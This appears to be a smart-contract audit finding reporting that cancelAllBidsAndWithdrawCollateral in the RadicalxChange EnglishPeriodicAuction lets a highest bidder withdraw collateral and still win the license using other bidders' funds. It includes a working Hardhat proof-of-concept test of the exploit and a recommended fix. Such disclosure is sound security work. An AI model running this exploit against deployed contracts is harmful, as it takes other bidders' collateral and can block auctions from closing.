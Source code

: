 Quaint Taupe Lion

high

# Malicious bidder can steal the license by canceling his bid before end of the auction using cancelAllBidsAndWithdrawCollateral

## Summary

## Vulnerability Detail
A bidder can place a very high bid, and before the auction is finished, he will call the function `cancelAllBidsAndWithdrawCollateral` to withdraw all the collaterals from all the bids he has placed ( [including the current one because the index in the for loop is going all to way to the current round](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L422) ) that is possible because the function is not checking if you're the highest bid in the current round as [_cancelBid is doing](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L393-L396), doing so the malicious bidder will be the highest bid but his collateral will be 0, allowing him to receive the Stewardship License without risking any funds ( if there is enough eth in contracts from the other bidders collateral to pay for the fees, if not the auction will never be able to be closed ).

## Impact
Two different things can be achieved from this exploit: 
1. Getting the license without paying any funds by using the funds deposited by other bidder as collateral
  OR
2. DOS the auction if there are not enough eth to pay for the fee (honorarium ) when calling the `closeAuction` function

## PoC
In the test from below, we explored the following scenario:
1. Malicious bidder add a higher bid, but small enough that the rest of the collateral (collateral of the other bidders ) will pay for his fee.
2. Malicious bidder withdraw his collateral using the function 'cancelAllBidsAndWithdrawCollateral' right before the auction close.
3. The other bidders have not withdraw their collateral yet so the contract have enough eth in his balance to pay the fee (honorarium) in the 'closeAuction' flow
4. The license have been transferred to the malicious bidder
5. When other bidders are trying to withdraw their collateral from the previous round(s) they can not do it as there is not enough eth in the contract to pay them. 
 
Add the following test in `EnglishPeriodAuction.ts` and run it using the command `npx hardhat test test/auction/EnglishPeriodicAuction.ts --no-compile`

```js
 it.only('place bid, and call cancelAllBidsAndWithdrawCollateral to withdraw collateral but remain the highest bid', async function () {
      // Auction start: Now - 200
      // Auction end: Now + 100
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) - 200,
        licensePeriod: 1000,
      });

      const licenseMock = await ethers.getContractAt(
        'NativeStewardLicenseMock',
        instance.address,
      );

      const bidAmount = ethers.utils.parseEther('1.2');
      const feeAmount = await instance.calculateFeeFromBid(bidAmount);
      const collateralAmount = feeAmount;
      
      const bidAmount1 = ethers.utils.parseEther('1.1');
      const feeAmount1 = await instance.calculateFeeFromBid(bidAmount1);
      const collateralAmount1 = feeAmount1.add(bidAmount1);

      await instance
        .connect(bidder1)
        .placeBid(0, bidAmount1, { value: collateralAmount1 });


      await instance
        .connect(owner)
        .placeBid(0, bidAmount, { value: collateralAmount });
      
      const bidBeforeWithdrawAllCall = await instance['bidOf(uint256,address)'](0, owner.address);
      const highestBidBeforeWithdrawAllCall = await instance['highestBid(uint256)'](0);

      await instance.connect(owner).cancelAllBidsAndWithdrawCollateral(0);

      const bidAfterWithdrawAllCall = await instance['bidOf(uint256,address)'](0, owner.address);
      const highestBidAfterWithdrawAllCall = await instance['highestBid(uint256)'](0);

      
      expect(bidBeforeWithdrawAllCall.bidder).to.be.equal(owner.address);
      expect(bidBeforeWithdrawAllCall.bidAmount).to.be.equal(bidAmount);
      expect(bidBeforeWithdrawAllCall.feeAmount).to.be.equal(feeAmount);
      expect(bidBeforeWithdrawAllCall.collateralAmount).to.be.equal(collateralAmount);

      expect(bidAfterWithdrawAllCall.bidder).to.be.equal(owner.address);
      expect(bidAfterWithdrawAllCall.bidAmount).to.be.equal(0);
      expect(bidAfterWithdrawAllCall.feeAmount).to.be.equal(feeAmount);
      expect(bidAfterWithdrawAllCall.collateralAmount).to.be.equal(0);


      expect(highestBidBeforeWithdrawAllCall.bidder).to.be.equal(owner.address);
      expect(highestBidBeforeWithdrawAllCall.bidAmount).to.be.equal(bidAmount);
      expect(highestBidBeforeWithdrawAllCall.feeAmount).to.be.equal(feeAmount);
      expect(highestBidBeforeWithdrawAllCall.collateralAmount).to.be.equal(collateralAmount);

      //check highest bid before and after to see there are no differences
      expect(highestBidAfterWithdrawAllCall.bidder).to.be.equal(bidBeforeWithdrawAllCall.bidder);
      expect(highestBidAfterWithdrawAllCall.bidAmount).to.be.equal(bidBeforeWithdrawAllCall.bidAmount);
      expect(highestBidAfterWithdrawAllCall.feeAmount).to.be.equal(bidBeforeWithdrawAllCall.feeAmount);
      expect(highestBidAfterWithdrawAllCall.collateralAmount).to.be.equal(bidBeforeWithdrawAllCall.collateralAmount);

      //call close auction
      await time.increase(100);
      await instance.closeAuction(0);
      
      // license transfered to the malitious address
      expect(await licenseMock.ownerOf(0)).to.be.equal(owner.address);

      // bidder1 can't withdraw his collateral as there is not enough eth in the contract to transfer to him as it was used to pay the fee (honorarium)
      await expect(instance.connect(bidder1).cancelAllBidsAndWithdrawCollateral(0)).to.be.revertedWith("EnglishPeriodicAuction: Failed to withdraw collateral");

    });
```


## Code Snippet
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416-L434

## Tool used

Manual Review

## Recommendation
Add a check in function `_cancelAllBids` to check that the bid is not the highestBid in the current round as `_cancelBid` is doing

